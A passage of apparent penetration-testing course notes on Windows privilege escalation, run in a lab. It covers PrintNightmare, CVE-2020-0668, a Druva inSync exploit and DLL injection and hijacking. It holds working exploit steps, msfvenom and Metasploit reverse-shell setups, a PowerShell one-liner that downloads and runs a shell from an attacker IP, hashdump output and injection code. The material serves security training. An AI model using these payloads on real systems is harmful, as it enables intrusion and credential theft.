... is a flaw in RpcAddPrinterDriver which is used to allow for remote printing and driver installation. This function is intended to give users with the Windows privilege SeLoadDriverPrivilege the ability to add drivers to a remote Print Spooler. This right is typically reserved for users in the built-in Administrators group and Print Operators who may have a legitimate need to install a printer driver on an end user's machine remotely. The flaw allowed any authenticated user to add a print driver to a Windows system without having the privilege mentioned above, allowing an attacker full remote code execution as SYSTEM on any affected system. The flaw affects every supported version of Windows, and being that the Print Spooler runs by default on DCs, Windows 7 and 10, and is often enabled on Windows servers, this presents a massive attack surface. Microsoft initially released a patch that did not fix the issue but released a secong patch in July of 2021 along with guidance to check that specific registry settings are either set to 0 or not defined. Once this vulnerability was made public, PoC exploits were released rather quickly. [This](https://github.com/cube0x0/CVE-2021-1675) version can be used to execute a malicious DLL remotely or locally using a modified version of Impacket. The repo also contains a C# implementation. This [PowerShell implementation](https://github.com/calebstewart/CVE-2021-1675) can be used for quick local privesc. By default, this script adds a new local admin user, but you can also supply a custom DLL to obtain a revshell or similar if adding a local admin user is not in scope.

You can quickly check if the Spooler service is running with the following command. If it is not running, you will receive a "path does not exist" error.

```powershell
PS C:\htb> ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```

First, start by [bypassing](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/) the execution policy on the target host:

```powershell
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A
```

Now you can import the PowerShell script and use it to add a new local admin user.

```powershell
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"

[+] created payload at C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_am
d64_ce3301b66255a0fb\Amd64\mxdwdrv.dll"
[+] added user hacker as local administrator
[+] deleting payload from C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
```

If all went to plan, you will have a new local admin user under your control. Adding a user is "noisy". You would not want to do this on an engagement where stealth is a consideration. Furthermore, you would want to check with your client to ensure account creation is in scope for the assessment.

```powershellPS C:\htb> net user hacker

User name                    hacker
Full Name                    hacker
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            ?8/?9/?2021 12:12:01 PM
Password expires             Never
Password changeable          ?8/?9/?2021 12:12:01 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       
Global Group memberships     *None                 
The command completed successfully.
```

#### Enumerating Missing Patches

The first step is looking at installed updates and attempting to find updates that may have been missed, thus, opening up an attack path for you.

You can examine the installed updates in several ways. Below are three separate commands you can use.

```powershell
PS C:\htb> systeminfo
PS C:\htb> wmic qfe list brief
PS C:\htb> Get-Hotfix
```

```powershell
PS C:\Users\steve> Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }

Source        Description      HotFixID      InstalledBy          InstalledOn
------        -----------      --------      -----------          -----------
              Security Update  KB5025239                          5/4/2023 12:00:00 AM
              Security Update  KB5025749                          5/4/2023 12:00:00 AM
              Security Update  KB5017233                          9/25/2022 12:00:00 AM
```

You can search for each KB (_Microsoft Knowledge Base ID number_) in the [Microsoft Update Catalog](https://www.catalog.update.microsoft.com/Search.aspx?q=KB5000808) to get a better idea of what fixes have been installed and how far behind the system may be on security updates.

#### CVE-2020-0668

Microsoft CVE-2020-0668: "Windows Kernel Elevation of Privilege Vulnerability" exploits an arbitrary file move vuln leveraging the Windows Service Tracing. Service Tracing allows users to troubleshoot issues with running services and modules by generating debug information. Its parameters are configurable using the Windows registry. Setting a custom MaxFileSize value that is smaller than the size of the file prompts the file to be renamed with a `.OLD` extension when the service is triggered. This move operation is performed by NT AUTHORITY\SYSTEM, and can be abused to move a file of your choosing with the help of mount points and symbolic links.

Verify your current user's privileges.

```
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

You can use [this](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668) exploit for CVE-2020-0668, download it, and open it in Visual Studio within a VM. Building the solution should create the following files.

```
CVE-2020-0668.exe
CVE-2020-0668.exe.config
CVE-2020-0668.pdb
NtApiDotNet.dll
NtApiDotNet.xml
```

At this point, you can use the exploit to create a file or your choosing in a protected folder such as `C:\Windows\System32`. You aren't able to overwrite any protected Windows files. This privileged file write needs to be chained with another vulnerability, such as [UsoDllLoader](https://github.com/itm4n/UsoDllLoader) or [DiagHub](https://github.com/xct/diaghub) to load the DLL and escalate your privileges. However, the UsoDllLoader technique may not work if Windows Updates are pending or currently being installed, and the DiagHub service may not be available.

You can also look for any third-party software, which can be leveraged, such as the Mozilla Maintenance Service. This service runs in the context of SYSTEM and is startable by unprivileged users. The binary for this service is located at: `C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe`

`icacls` confirms that you only have read and execute permissions on this binary based on the line `BUILTIN\Users:(I)(RX)` in the command output.

```
C:\htb> icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                                          BUILTIN\Administrators:(I)(F)
                                                                          BUILTIN\Users:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
 
Successfully processed 1 files; Failed processing 0 files
```

Generate a malicious maintenanceservice.exe binary that can be used to obtain a Meterpreter reverse shell connection from your target.

```
d41y@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 645 bytes
Final size of exe file: 7168 bytes
```

You can download it to the target using cURL after starting a Python HTTP server on your attack host. You can also use wget from the target.

```
d41y@htb[/htb]$ $ python3 -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.43.13 - - [01/Mar/2022 18:17:26] "GET /maintenanceservice.exe HTTP/1.1" 200 -
10.129.43.13 - - [01/Mar/2022 18:17:45] "GET /maintenanceservice.exe HTTP/1.1" 200 -
```

You need to make two copies of the malicious .exe file. You can just pull it over twice or do it once and make a second copy.

You need to do this because running the exploits corrupts the malicious version of maintenanceservice.exe that is moved to `c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe` which you will need to account for later. If you attempt to utilize the copied version, you will receive a system error 216 because the .exe file is no longer a valid binary.

```powershell
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
```

Next, run the exploit. It accepts two arguments, the source and destination files.

```cmd-session
C:\htb> C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"                                       

[+] Moving C:\Users\htb-student\Desktop\maintenanceservice.exe to C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe

[+] Mounting \RPC Control onto C:\Users\htb-student\AppData\Local\Temp\nzrghuxz.leo
[+] Creating symbol links
[+] Updating the HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Tracing\RASPLAP configuration.
[+] Sleeping for 5 seconds so the changes take effect
[+] Writing phonebook file to C:\Users\htb-student\AppData\Local\Temp\179739c5-5060-4088-a3e7-57c7e83a0828.pbk
[+] Cleaning up
[+] Done!
```

The exploit runs and executing `icacls` agains shows the following entry for your user: `WINLPE-WS02\htb-student:(F)`. This means that your htb-student user has full control over the maintenanceservice.exe binary, and you can overwrite it with a non-corrupted version of your malicious binary.

```
C:\htb> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(F)
                                                                          BUILTIN\Administrators:(F)
                                                                          WINLPE-WS02\htb-student:(F)
```

You can overwrite the maintenanceservice.exe binary in `c:\Program Files (x86)\Mozilla Maintenance Service` with a good working copy of your malicious binary created earlier before proceeding to start the service. In this example, you downloaded two copies of the malicious binary to `C:\Users\htb-student\Desktop`, `maintenanceservice.exe` and `maintenanceservice2.exe`. Move the good copy that was not corrupted by the exploit to the Program Files directory, making sure to rename the file properly and remove the `2` or the service won't start. The `copy` command will only work from a cmd.exe window, not a PowerShell console.

```
C:\htb> copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

        1 file(s) copied.

```

Next, save the below commands to a [Resource Script](https://docs.rapid7.com/metasploit/resource-scripts/) file named `handler.rc`.

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```

Launch Metasploit using the Resource Script file to preload your settings.

```bash
d41y@htb[/htb]$ sudo msfconsole -r handler.rc 
                                                 

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1123 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Use the resource command to run commands from a file

[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler.rc)> set PAYLOAD windows/x64/meterpreter/reverse_https
PAYLOAD => windows/x64/meterpreter/reverse_https
resource (handler.rc)> set LHOST 10.10.14.3
LHOST => 10.10.14.3
resource (handler.rc)> set LPORT 8443
LPORT => 8443
resource (handler.rc)> exploit
[*] Started HTTPS reverse handler on https://10.10.14.3:8443
```

Start the service, and you should get a session as NT AUTHORITY\SYSTEM.

```
C:\htb> net start MozillaMaintenance 

The service is not responding to the control function

More help is available by typing NET HELPMSG 2186
```

You will get an error trying to start the service but will still receive a callback once the Meterpreter binary executes.

```bash
[*] Started HTTPS reverse handler on https://10.10.14.3:8443
[*] https://10.10.14.3:8443 handling request from 10.129.43.13; (UUID: syyuxztc) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (10.10.14.3:8443 -> 10.129.43.13:52047) at 2021-05-14 13:38:55 -0400


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM


meterpreter > sysinfo

Computer        : WINLPE-WS02
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 6
Meterpreter     : x64/windows


meterpreter > hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c93428723187f868ae2f99d4fa66dceb:::
```

### Vulnerable Services

You may be able to escalate privileges on well-patched and well-configured systems if users are permitted to install software or vulnerable third-party apps/services are used throughout the organization. It is common to encounter a multitude of a vulnerable service that you would come across in a real-world environment. Some services/apps may allow you to escalate to SYSTEM. In contrast, others could cause a DoS condition or allow access to senstive data as much as configuration files containing passwords.

Start by enumerating installed applications to get a lay of the land.

```
C:\htb> wmic product get name

Name
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4023057)
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.24.28127
VMware Tools
Druva inSync 6.6.3
Microsoft Update Health Tools
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4480730)
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.24.28127
```

The output looks mostly standard for a Windows 10 workstation, the Druva inSync application stands out. A quick Google search shows that version 6.6.3 is vulnerable to a command injection attack via an exposed RPC service. You may be able to use [this](https://www.exploit-db.com/exploits/49211) exploit PoC to escalate your privileges. From this [blog post](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/) which details the initial discovery of the flaw, you can see that Druva inSync is an application used for "Integrated backup, eDiscovery, and compliance monitoring", and the client application runs a service in the context of the powerful NT AUTHORITY\SYSTEM account. Escalation is possible by interacting with a service running locally on port 6064.

Do some further enumeration to confirm that the service is running as expected. A quick look with `netstat` shows a service running locally on port 6064.

```
C:\htb> netstat -ano | findstr 6064

  TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3324
  TCP    127.0.0.1:6064         127.0.0.1:50274        ESTABLISHED     3324
  TCP    127.0.0.1:6064         127.0.0.1:50510        TIME_WAIT       0
  TCP    127.0.0.1:6064         127.0.0.1:50511        TIME_WAIT       0
  TCP    127.0.0.1:50274        127.0.0.1:6064         ESTABLISHED     3860
```

Next, map the process ID 3324 back to the running processes.

```powershell
PS C:\htb> get-process -Id 3324

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    149      10     1512       6748              3324   0 inSyncCPHwnet64
```

At this point, you have enough information to determine that the Druva inSync application is indeed installed and running, but you can do one last check using the `Get-Service` cmdlet.

```powershell
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}

Status   Name               DisplayName
------   ----               -----------
Running  inSyncCPHService   Druva inSync Client Service
```

#### Druva inSync Windows Client LPE Example

With this information in hand, try out the exploit PoC, which is this short PowerShell snippet.

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

For your purposes, you want to modify the `$cmd` variable to your desired command. You can do many things here, such as adding a local admin user or sending yourself a revshell. Try this with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download the script to your attack box, and rename it something simple like shell.ps1. Open the file, and append the following at the bottom of the script file.

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

Modify the `$cmd` variable in the Druva inSync exploit PoC script to download your PowerShell reverse shell into memory.

```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```

Next, start a Python web server in the same directory where your shell.ps1 script resides.

```bash
d41y@htb[/htb]$ python3 -m http.server 8080
```

Finally, start a Netcat listener on the attack box and execute the PoC PowerShell script on the target host. You will get a revshell connection back with SYSTEM privileges if all goes to plan.

```bash
d41y@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.7] 58611
Windows PowerShell running as user WINLPE-WS01$ on WINLPE-WS01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.


PS C:\WINDOWS\system32>whoami

nt authority\system


PS C:\WINDOWS\system32> hostname

WINLPE-WS01
```

### DLL Injection

... is a method that involves inserting a piece of code, structured as a Dynamic Link Library (_DLL_), into a running process. This technique allows the inserted code to run within the process's context, thereby influencing its behavior or accessing its resources.

DLL injection finds legitimate applications in various areas. For instance, software devs leverage this technology for hot patching, a method that enables the amendment or updating of code seamlessly, without the need to restart the ongoing process immediately. A prime example of this is Azure's use of hot patching for updating operational servers, which facilitates the benefits of the update without necessitating server downtime.

Nevertheless, it's not entirely innocuous. Cybercriminals often manipulate DLL injection to insert malicious code into trusted processes. This technique is particularly effective in evading detection by security software.

There are several methods for actually executing a DLL injection.

#### LoadLibrary

... is a widely utilized method for DLL injection, employing the LoadLibrary API to load the DLL into the target process's address space.

The LoadLibrary API is a function provided by the Windows OS that loads a DLL into the current process's memory and returns a handle that can be used to get the address of functions within the DLL.

```c
#include <windows.h>
#include <stdio.h>

int main() {
    // Using LoadLibrary to load a DLL into the current process
    HMODULE hModule = LoadLibrary("example.dll");
    if (hModule == NULL) {
        printf("Failed to load example.dll\n");
        return -1;
    }
    printf("Successfully loaded example.dll\n");

    return 0;
}
```

The first example shows how LoadLibrary can be used to load a DLL into the current process legitimately.

```c
#include <windows.h>
#include <stdio.h>

int main() {
    // Using LoadLibrary for DLL injection
    // First, we need to get a handle to the target process
    DWORD targetProcessId = 123456; // The ID of the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetProcessId);
    if (hProcess == NULL) {
        printf("Failed to open target process\n");
        return -1;
    }

    // Next, we need to allocate memory in the target process for the DLL path
    LPVOID dllPathAddressInRemoteMemory = VirtualAllocEx(hProcess, NULL, strlen(dllPath), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if (dllPathAddressInRemoteMemory == NULL) {
        printf("Failed to allocate memory in target process\n");
        return -1;
    }

    // Write the DLL path to the allocated memory in the target process
    BOOL succeededWriting = WriteProcessMemory(hProcess, dllPathAddressInRemoteMemory, dllPath, strlen(dllPath), NULL);
    if (!succeededWriting) {
        printf("Failed to write DLL path to target process\n");
        return -1;
    }

    // Get the address of LoadLibrary in kernel32.dll
    LPVOID loadLibraryAddress = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    if (loadLibraryAddress == NULL) {
        printf("Failed to get address of LoadLibraryA\n");
        return -1;
    }

    // Create a remote thread in the target process that starts at LoadLibrary and points to the DLL path
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryAddress, dllPathAddressInRemoteMemory, 0, NULL);
    if (hThread == NULL) {
        printf("Failed to create remote thread in target process\n");
        return -1;
    }

    printf("Successfully injected example.dll into target process\n");

    return 0;
}
```

The second example illustrates the use of LoadLibrary for DLL injection. This process involves allocating memory within the target process for the DLL path and then initiating a remote thread that begins with LoadLibrary and directs towards the DLL path.

#### Manual Mapping

... is an incredibly complex and avanced method of DLL injection. It involves the manual loading of a DLL into a process's memory and resolves its imports and relocations. However, it avoids easy detection by not using the LoadLibrary function, whose usage is monitored by security and anti-cheat systems.

A simplified outline of the process can be represented as follows:

1. Load the DLL as raw data into the injecting process.
2. Map the DLL sections into the targeted process.
3. Inject shellcode into the target process and execute it. This shellcode relocates the DLL, rectifies the imports, executes the Thread Local Storage (_TLS_) callbacks, and finally calls the DLL main.

#### Reflective DLL Injection

... is a technique that utilizes reflective programming to load a library from memory into a host process. The library itself is responsible for its loading process by implementing a minimal Portable Executable (_PE_) file loader. This allows it to decide how it will load and interact with the host, minimising interaction with the host system and process.

> "The procedure of remotely injecting a library into a process is two-fold. First, the library you aim to inject must be written into the target process's address space. Second, the library must be loaded into the host process to meet the library's runtime expectations, such as resolving its imports or relocating it to an appropriate location in memory."
> 
> Assuming you have code execution in the host process and the library you aim to inject has been written into an arbitrary memory location in the host process, Reflective DLL Injections as follows:
> 
> 1. Execution control is transferred to the library's ReflectiveLoader function, an exported function found in the library's export table. This can happen either via `CreateRemoteThread()` or a minimal bootstrap shellcode.
2. As the library's image currently resides in an arbitrary memory location, the ReflectiveLoader initially calculates its own image's current memory location to parse its own headers for later use.
3. The ReflectiveLoader then parses the host process's kernel32.dll export table to calculate the addresses of three functions needed by the loader, namely LoadLibraryA, GetProcAddress, and VirtualAlloc.
4. The ReflectiveLoader now allocates a continuous memory region where it will proceed to load its own image. The location isn't crucial; the loader will correctly relocate the image later.
5. The library's headers and sections are loaded into their new memory locations.
6. The ReflectiveLoader then processes the newly loaded copy of its image's import table, loading any additional libraries and resolving their respective imported function addresses.
7. The ReflectiveLoader then processes its newly loaded copy of its image's relocation table.
8. The ReflectiveLoader then calls its newly loaded image's entry point function, DllMain, with `DLL_PROCESS_ATTACH`. The library has now been successfully loaded into memory.
9. Finally, the ReflectiveLoader returns execution to the initial bootstrap shellcode that called it, or if it were called via `CreateRemoteThread`, the thread would terminate.

\- [Stehpen Fewer on GitHub](https://github.com/stephenfewer/ReflectiveDLLInjection)

#### DLL Hijacking

... is an exploitation technique where an attacker capitalizes on the Windows DLL loading process. These DLLs can be loaded during runtime, creating a hijacking opportunity if an application doesn't specify the full path to a required DLL, hence rendering it susceptible to such attacks.

The default DLL search order used by the system depends on whether "Safe DLL Search Mode" is activated. When enabled, Safe DLL Search Mode repositions the user's current directory further down in the search order. It's easy to either enable or disable the setting by editing the registry.

1. Press `[SUPER] + [R]` to open the Run dialog box.
2. Type in "Regedit" and press "Enter". This will open the Registry Editor.
3. Navigate to `HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Session Manager`.
4. In the right pane, look for the "SafeDllSearchMode" value. If it does not exist, right-click the blank space of the folder or right click the "Session Manager" folder, select "New" and then "DWORD (32-bit) Value". Name this new value as "SafeDllSearchMode".
5. Double-click "SafeDllSearchMode". In the value data field, enter "1" to enable and "0" to disable Safe DLL Search Mode.
6. Click "OK", close the Registry Editor and Reboot the system for the changes to take effect.

With this mode enabled, applications search for necessary DLL files in the following sequence:

1. The directory from which the application is loaded.
2. The system directory.
3. The 16-bit directory
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.

However, if "Safe DLL Search Mode" is deactivated, the search order changes to:

1. The directory from which the application is loaded.
2. The current directory.
3. The system directory.
4. The 16-bit system directory.
5. The Windows directory.
6. The directories that are listed in the PATH environment variable.

DLL Hijacking involves a few more steps. First, you need to pinpoint a DLL the target is attempting to locate. Specific tools can simplify this task:

1. **Process Explorer**: Part of Microsoft's Sysinternals suite, this tool offers detailed information on running processes, including their loaded DLLs. By selecting a process and inspecting its properties, you can view its DLLs.
2. **PE Explorer**: This Portable Executable Explorer can open and examine a PE file. Among other features, it reveals the DLLs from which the file imports functionality.

After identifying a DLL, the next step is determining which functions you want to modify, which necessitates reverse engineering tools, such as disassemblers and debuggers. Once the functions and their signatures have been identified, it's time to construct the DLL.

Take a practical example. Consider the C program below:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <windows.h>

typedef int (*AddFunc)(int, int);

int readIntegerInput()
{
    int value;
    char input[100];
    bool isValid = false;

    while (!isValid)
    {
        fgets(input, sizeof(input), stdin);

        if (sscanf(input, "%d", &value) == 1)
        {
            isValid = true;
        }
        else
        {
            printf("Invalid input. Please enter an integer: ");
        }
    }

    return value;
}

int main()
{
    HMODULE hLibrary = LoadLibrary("library.dll");
    if (hLibrary == NULL)
    {
        printf("Failed to load library.dll\n");
        return 1;
    }

    AddFunc add = (AddFunc)GetProcAddress(hLibrary, "Add");
    if (add == NULL)
    {
        printf("Failed to locate the 'Add' function\n");
        FreeLibrary(hLibrary);
        return 1;
    }
    HMODULE hLibrary = LoadLibrary("x.dll");

    printf("Enter the first number: ");
    int a = readIntegerInput();

    printf("Enter the second number: ");
    int b = readIntegerInput();

    int result = add(a, b);
    printf("The sum of %d and %d is %d\n", a, b, result);

    FreeLibrary(hLibrary);
    system("pause");
    return 0;
}
```

It loads an `add` function from the library.dll and utilizes this function to add two numbers. Subsequently, it prints the result of the addition. By examining the program in Process Monitor (_procmon_), you can observe the process of loading the library.dll located in the same directory.

First, set up a filter in procmon to solely include main.exe, which is the process name of the program. This filter will help you focus specifically on the activities related to the execution of main.exe. It is important to note that procmon only captures information while it is actively running. Therefore, if your log appears empty, you should close main.exe and reopen while procmon is running. This will ensure that the necessary information is captured and available for analysis.




Then if you scroll to the bottom, you can see the call to load library.dll.



You can further filter for an "Operation" of "Load Image" to only get the libraries the app is loading.

```bash
16:13:30,0074709	main.exe	47792	Load Image	C:\Users\PandaSt0rm\Desktop\Hijack\main.exe	SUCCESS	Image Base: 0xf60000, Image Size: 0x26000
16:13:30,0075369	main.exe	47792	Load Image	C:\Windows\System32\ntdll.dll	SUCCESS	Image Base: 0x7ffacdbf0000, Image Size: 0x214000
16:13:30,0075986	main.exe	47792	Load Image	C:\Windows\SysWOW64\ntdll.dll	SUCCESS	Image Base: 0x77a30000, Image Size: 0x1af000
16:13:30,0120867	main.exe	47792	Load Image	C:\Windows\System32\wow64.dll	SUCCESS	Image Base: 0x7ffacd5a0000, Image Size: 0x57000
16:13:30,0122132	main.exe	47792	Load Image	C:\Windows\System32\wow64base.dll	SUCCESS	Image Base: 0x7ffacd370000, Image Size: 0x9000
16:13:30,0123231	main.exe	47792	Load Image	C:\Windows\System32\wow64win.dll	SUCCESS	Image Base: 0x7ffacc750000, Image Size: 0x8b000
16:13:30,0124204	main.exe	47792	Load Image	C:\Windows\System32\wow64con.dll	SUCCESS	Image Base: 0x7ffacc850000, Image Size: 0x16000
16:13:30,0133468	main.exe	47792	Load Image	C:\Windows\System32\wow64cpu.dll	SUCCESS	Image Base: 0x77a20000, Image Size: 0xa000
16:13:30,0144586	main.exe	47792	Load Image	C:\Windows\SysWOW64\kernel32.dll	SUCCESS	Image Base: 0x76460000, Image Size: 0xf0000
16:13:30,0146299	main.exe	47792	Load Image	C:\Windows\SysWOW64\KernelBase.dll	SUCCESS	Image Base: 0x75dd0000, Image Size: 0x272000
16:13:31,7974779	main.exe	47792	Load Image	C:\Users\PandaSt0rm\Desktop\Hijack\library.dll	SUCCESS	Image Base: 0x6a1a0000, Image Size: 0x1d000
```

##### Proxying

You can utilize a method known as DLL Proxying to execute a Hijack. You will create a new library that will load the function `Add` from library.dll, tamper with it, and then return it to main.exe.

1. **Create a new library**: You will create a new library serving as the proxy for library.dll. This library will contain the necessary code to load the `Add` function from library.dll and perform the required tampering.
2. **Load the `Add` function**: Within the new library, you will load the `Add` function from the original library.dll. This will allow you to access the original function.
3. **Tamper with the function**: Once the `Add` function is loaded, you can then apply the desired tampering or modifications to its result. In this case, you are simply going to modify the result of the addition, to add `+ 1` to the result.
4. **Return the modified function**: After completing the tampering process, you will return the modified `Add` function from the new library back to main.exe. This will ensure that when main.exe calls the `Add` function, it will execute the modified version with the intended changes.

The code is as follows:

```c
// tamper.c
#include <stdio.h>
#include <Windows.h>

#ifdef _WIN32
#define DLL_EXPORT __declspec(dllexport)
#else
#define DLL_EXPORT
#endif

typedef int (*AddFunc)(int, int);

DLL_EXPORT int Add(int a, int b)
{
    // Load the original library containing the Add function
    HMODULE originalLibrary = LoadLibraryA("library.o.dll");
    if (originalLibrary != NULL)
    {
        // Get the address of the original Add function from the library
        AddFunc originalAdd = (AddFunc)GetProcAddress(originalLibrary, "Add");
        if (originalAdd != NULL)
        {
            printf("============ HIJACKED ============\n");
            // Call the original Add function with the provided arguments
            int result = originalAdd(a, b);
            // Tamper with the result by adding +1
            printf("= Adding 1 to the sum to be evil\n");
            result += 1;
            printf("============ RETURN ============\n");
            // Return the tampered result
            return result;
        }
    }
    // Return -1 if the original library or function cannot be loaded
    return -1;
}
```

Either compile it or use the precompiled version provided. Rename library.dll to library.o.dll, and rename tamper.dll to library.dll.

Running main.exe then shows the successful hack.



##### Invalid Libraries

Another option to execute a DLL hijack is to replace a valid library the program is attempting to load but cannot find with a crafted library. If you change the procmon filter to focus on entries whose path ends in `.dll` and has a status of "NAME NOT FOUND" you can find such libraries in main.exe.



As you know, main.exe searches in many locations looking for x.dll, but it doesn't find it anywhere. The entry you are particularly interested in is:

```
